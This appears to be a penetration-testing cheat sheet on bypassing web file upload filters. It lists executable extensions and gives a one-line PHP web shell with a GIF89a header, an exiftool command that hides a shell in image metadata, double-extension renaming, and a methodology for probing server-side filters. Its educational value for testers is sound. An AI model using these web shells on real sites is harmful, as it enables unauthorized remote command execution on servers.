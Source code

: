 # Bypassing File Upload Filtering

## Rename it

* rename the shell and upload it as shell.php.jpg
* it can pass the filter and the file is executed as php

### PHP

* phtml
* .php
* .php3
* .php4
* .php5
* .inc

### asp

* asp
* .aspx

### Perl

* .pl
* .pm
* .cgi
* .lib

### jsp

* .jsp
* .jspx
* .jsw
* .jsv
* .jspf

### Coldfusion

* .cfm
* .cfml
* .cfc
* .dbm

## GIF89a;

* If the content is checked, add the text "GIF89a;" before you shell code

```bash
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
```

## In Image

* exiftool is a great tool to view and manipulate exif-data

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```

### Then Rename the File

```bash
mv lo.jpg lo.php.jpg
```

## Methodology

1. The first thing we would do is take a look at the website as a whole. Using browser extensions such as Wappalyzer \(or by hand\) we would look for indicators of what languages and frameworks the web application might have been built with. Be aware that Wappalyzer is not always 100% accurate. A good start to enumerating this manually would be by making a request to the website and intercepting the response with Burpsuite. Headers such as `server` or `x-powered-by` can be used to gain information about the server. We would also be looking for vectors of attack, like, for example, an upload page. 
2. Having found an upload page, we would then aim to inspect it further. Looking at the source code for client-side scripts to determine if there are any client-side filters to bypass would be a good thing to start with, as this is completely in our control. 
3. We would then attempt a completely innocent file upload. From here we would look to see how our file is accessed. In other words, can we access it directly in an uploads folder? Is it embedded in a page somewhere? What's the naming scheme of the website? This is where tools such as Gobuster might come in if the location is not immediately obvious. This step is extremely important as it not only improves our knowledge of the virtual landscape we're attacking, it also gives us a baseline "accepted" file which we can base further testing on. 
   * An important Gobuster switch here is the `-x` switch, which can be used to look for files with specific extensions. For example, if you added `-x php,txt,html` to your Gobuster command, the tool would append `.php`, `.txt`, and `.html` to each word in the selected wordlist, one at a time. This can be very useful if you've managed to upload a payload and the server is changing the name of uploaded files. 
4. Having ascertained how and where our uploaded files can be accessed, we would then attempt a malicious file upload, bypassing any client-side filters we found in step two. We would expect our upload to be stopped by a server side filter, but the error message that it gives us can be extremely useful in determining our next steps.

Assuming that our malicious file upload has been stopped by the server, here are some ways to ascertain what kind of server-side filter may be in place:

* If you can successfully upload a file with a totally invalid file extension \(e.g. `testingimage.invalidfileextension`\) then the chances are that the server is using an extension blacklist to filter out executable files. If this upload fails then any extension filter will be operating on a whitelist. 
* Try re-uploading your originally accepted innocent file, but this time change the magic number of the file to be something that you would expect to be filtered. If the upload fails then you know that the server is using a magic number based filter. 
* As with the previous point, try to upload your innocent file, but intercept the request with Burpsuite and change the MIME type of the upload to something that you would expect to be filtered. If the upload fails then you know that the server is filtering based on MIME types. 
* Enumerating file length filters is a case of uploading a small file, then uploading progressively bigger files until you hit the filter. At that point you'll know what the acceptable limit is. If you're very lucky then the error message of original upload may outright tell you what the size limit is. Be aware that a small file length limit may prevent you from uploading the reverse shell we've been using so far.

## References and More Things to Read

* [http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)
* [https://www.owasp.org/index.php/Unrestricted\_File\_Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)
* [http://repository.root-me.org/Exploitation - Web/EN - Webshells In PHP, ASP, JSP, Perl, And ColdFusion.pdf](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf)
* [https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
* [https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/)
* [http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)
* [http://www.net-informations.com/faq/asp/validation.htm](http://www.net-informations.com/faq/asp/validation.htm)
* [https://owasp.org/www-community/vulnerabilities/Unrestricted\_File\_Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
* [https://www.sitepoint.com/mime-types-complete-list/](https://www.sitepoint.com/mime-types-complete-list/)
* [https://www.w3schools.com/php/php\_file\_upload.asp](https://www.w3schools.com/php/php_file_upload.asp)
* [https://en.wikipedia.org/wiki/List\_of\_file\_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

